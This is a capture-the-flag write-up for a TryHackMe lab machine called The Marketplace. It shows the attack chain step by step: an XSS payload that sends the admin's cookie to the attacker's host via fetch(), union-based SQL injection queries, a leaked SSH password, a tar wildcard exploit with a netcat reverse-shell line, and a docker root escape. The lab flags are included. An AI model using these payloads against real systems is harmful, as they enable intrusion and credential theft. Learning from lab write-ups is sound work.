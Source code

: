 > The MarketPlace

**export IP=10.10.249.242**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack nginx 1.19.2
32768/tcp open  http    syn-ack Node.js (Express middleware)
```

While visiting the site we find 2 users `michael` and `jake`. After some working we found another user `system`.

# robots.txt

```
User-Agent: *
Disallow: /admin
```

Looks like we can create a new listing and we can upload a file but couldn't get a reverse shell! So let's try XSS. And trying basic xss `<img src=xss onerror=alert(1)>` and `<script> onerror(0)</script>` we have XSS. The admin hecks the system when we report something. So let's steal his cookie.

`<script>fetch("http://10.8.107.21:8000/"+document.cookie)</script>ro`

While we set up a server on our machine and reporting it we have admin's cookie.

`GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDU1MzgyMjJ9.539wAuXFOMIVHHr3r8mibekPPL5SAuCbqwTeuGGXXwg HTTP/1.1`

And entering the cookie there gives us admin access.

## Flag 1

```
THM{c37a63895910e478f28669b048c348d5}
```

When we look at administration panel we look at the url and looks vulnerable!!

# SQLi

To find the no. of columns used let's use order clause here. 

`http://10.10.249.242/admin?user=2 order by 5` gives us error which means we have 4 columns.

And which columns are reflected. `http://10.10.249.242/admin?user=0 union select 1,2,3,4` since there is no such user 0 so 1,2,3,4 is returned by query. And we find 1 and 2.

Finding tables `union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'`. Information schema has the details.

```
User items,messages,users
ID: 1
Is administrator: true 
```

## Investigating user column

`union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'`

```
User id,username,password,isAdministrator
```

`union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='messages'`

```
User id,user_from,user_to,message_content,is_read 
```

## Getting the messages

`union select 1,group_concat(message_content,0x2b,user_to),3,4 from messages`. 0x2b acts as a delimeter.

```
User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ+3,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!+4,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.+4,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!+5,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.+5
```

Looks like we have user 3 password and the user is `user=3` gives us `jake`.

**SSH Credentials => jake:@b_ENXkGYUCAv3zJ**

# user.txt

```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

# Privilege Escalation

sudo -l

```
(michael) NOPASSWD: /opt/backups/backup.sh
```

## backup.sh

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

# tar wildcard exploit

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 9001 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
chmod 777 backup.tar shell.sh 
sudo -u michael /opt/backups/backup.sh
```

Now we are in as Michael! We know that we can run docker by running id command.

## Listing docker images

docker image ls

```
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        2 months ago        2.16GB
nginx                        latest              4bb46517cac3        3 months ago        133MB
node                         lts-buster          9c4cc2688584        3 months ago        886MB
mysql                        latest              0d64f46acfd1        3 months ago        544MB
alpine                       latest              a24bb4013296        5 months ago        5.57MB
```

From referring GTFO bins, we come to know that we can get a shell

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Now we are root!!

# root.txt

```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```